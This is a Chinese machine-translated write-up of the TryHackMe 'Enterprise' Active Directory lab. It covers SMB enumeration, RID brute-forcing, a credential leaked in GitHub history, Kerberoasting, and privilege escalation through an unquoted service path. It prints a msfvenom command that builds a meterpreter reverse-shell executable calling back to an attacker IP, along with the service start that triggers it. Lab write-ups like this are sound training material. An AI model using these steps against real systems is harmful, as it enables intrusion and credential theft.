# 企业— Tryhackme 报道

> 原文：<https://infosecwriteups.com/enterprise-tryhackme-writeup-aee8691afa17?source=collection_archive---------1----------------------->

你刚刚登陆了一个内部网络。你扫描网络，只有域控制器



# ✅信息收集

## 鲁斯坎

第一，用 rustscan 找开放端口很好！！你知道为什么！！它可以在不到 10 秒的时间内扫描范围从 0 到 65535 的所有端口！！



我们可以看到我们打开了几个端口，包括 88 个用于 Kerberos 身份验证的端口。所以，很可能是域控制器。

现在让我们试着运行 NMAP，以获得更多的细节，比如来自 LDAP 的域名和服务版本！！



如你所见，我们从 RDP 端口(3389)即 LAB 获得了域名。企业. THM

现在首先让我们把这个域名添加到我们的`/etc/hosts`



# ✅ SMB 端口枚举(445)

首先，我喜欢列举 SMB 端口。让我们首先尝试用空会话列出这些股份。



正如您所看到的，我们已经读取了 IPC$ so 上的权限，我们可以使用 impacket-lookup id 来查找可能的用户名。但是现在，让我们继续列举。

既然我们对**用户**和**文档**拥有读取权限，那么让我们将它们转储到我的机器上。更有效地列举。

因此，对于转储股份，我可以使用 CIFS(通用互联网文件系统)或 crackmapexec 来抓取股份，如下所示:



它会将结果存储在`/tmp/cme_spider_plus`中:



现在让我们运行`tree`命令，我们可以直观地看到突出的文件:



因此，有三个文件很突出，其中两个是文档文件，它似乎是加密的(如果走进死胡同，我们将回到这里)，另一个是 Consolehost_history.txt 文件。这是记录 PowerShell 命令历史的默认文件。让我们看看它的内容！！



我们可以看到用户名和密码，让我们尝试使用这些凭据。



但是我们可以看到登录失败了！！我也尝试了不同的协议，我们得到了一个登录失败。

现在我想到了密码喷涂，但首先，我们需要得到所有的用户名。

# AD 中的✅用户名枚举

因为我们在 IPC$上有读权限，所以我们可以通过使用 crackmapexec 或`impacket-lookupsid.py`来枚举用户。现在，我将使用`impacket-lookupsid.py`

在这里，我们实际上是通过强制 RID(相对标识符)来枚举的



在这里，我们将获得所有用户，让我们通过正确格式化来创建一个用户名. txt 文件。`impacket-lookupsid 'anonymous:'@<ip> | cut -d " " -f 2 > usernames.txt`

此外，删除不必要的帐户！！

所以我们有一个用户名列表。现在让我们试着把它和我们在控制台历史文件中找到的密码进行对比。



如你所见，我们有`STATUS_LOGON_FAILURE`东西。

# ✅枚举端口 80



在这里，我试图蛮力目录，但没有出现接受机器人。txt，这是值得检查！！


但是我们什么都没得到！！

这更可能是一个死胡同，所以，我开始破解这些文档文件，并再次开始枚举过程。但是还是没有任何进展

等待一段时间后，我发现有一个端口显示在我们的 RUSTSCAN 结果中，但没有显示在我们的 Nmap 结果中，即 **7990。**

所以我启动了 Nmap 来对抗它！！



它运行的是微软的 IIS 服务器。我们来列举一下吧！！



首先，我试着输入我通过电子邮件获得的信用

我尝试了网络目录暴力和其他一些枚举，但没有什么真正出现。

但是在登录页面的顶部，写着我们正在迁移到 GitHub。

所以我们搜索一下 GitHub for LABS.Enterprise.thm。



这里除了一个关于我们的文件之外什么都没有，但是我们找到了一个用户



他的名字是 Nik-enterprise-dev，如果我们继续查看他的个人资料，我们会得到一些管理脚本，但没有任何有用的东西。但是如果我们看到提交完成，我们会发现一些非常有趣的事情。



所以最后我们拿到了第一张凭证， **nik: ToastyBoi！。**我们现在可以验证凭据了:



事实上，它们是有效的凭证！！

现在让我们搜索那里的任何 kerberostable 用户，并用 impacket 转储他们的散列。

# ✅寻找 Kerberos 稳定的用户



好了，我们得到了一个启用了 Kerberos 身份验证的用户帐户；所以我们可以扔掉他们的大麻。

让我们试着用 hashcat 来破解它们:



# ✅最初的立足点

获得两个有效凭证后；我再次开始枚举过程，但这次我想，我们先获取访问权限。我试图使用`evil-winrm`,但它不起作用，因为没有为这些帐户配置 Psremoting。但是从我们的 NMAP 结果来看，我们记得 RDP 在跑步。我试着用两个用户凭证访问 RDP，其中一个用户凭证(bitbucket)有 RDP 权限。

登录后，我们得到了`user.txt`文件。



现在，因为我们只在 DC(域控制器)上。我们需要提升我们的特权。

# ✅权限升级

首先，让我们获得 meterpreter reverse shell，以便我们可以轻松地处理后利用和权限提升。

在获得第一次访问权后，简单地转移有效载荷配置为`windows/x64/meterpreter/reverse_tcp`的漏洞，我试图运行**本地漏洞利用建议器**来找到任何可以使用的漏洞利用！！



是的，我们得到了一些建议，在尝试之后，我只得到一个错误`exploit completed but no session created`，这是令人难过的！！


现在，我想到了转移**winpeas.exe**去寻找一个更有特权的升级载体。



是的，有一个**未引用的服务路径注入漏洞**，我们可以利用它。

所以我创建了一个 msfvenom 漏洞:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.17.0.110 LPORT=4443 -f exe -o ZeroTier.exe
```

并将其转移到路径`c:\Program Files (x86)\Zero Tier\Zero Tier One`

名称为`ZeroTier.exe`，这将允许我们利用未加引号的服务名称路径。

现在让我们用 Powershell 启动服务

```
Start-Service zerotieroneservice
```



我们得到了壳，但是在得到壳 4-5 次之后，它每次都在死亡，所以；我认为我们需要将其迁移到一个稳定的流程中。我们可以将 Metasploit 的后开发模块与 is `windows/manage/migrate` 一起使用。通过使用它，我们可以迁移到更稳定的流程。



现在我们有了一个稳定的管理员外壳



是的，最后我们得到了 root.txt 文件！！


谢谢你看我的文章！！👊👊

请在媒体和其他社交平台上关注我，支持我:

[https://surya-dev.medium.com/](https://surya-dev.medium.com/)

[https://twitter.com/kryolite_secure](https://twitter.com/kryolite_secure)/

https://[www.instagram.com/kryolite_security/](http://www.instagram.com/kryolite_security/)

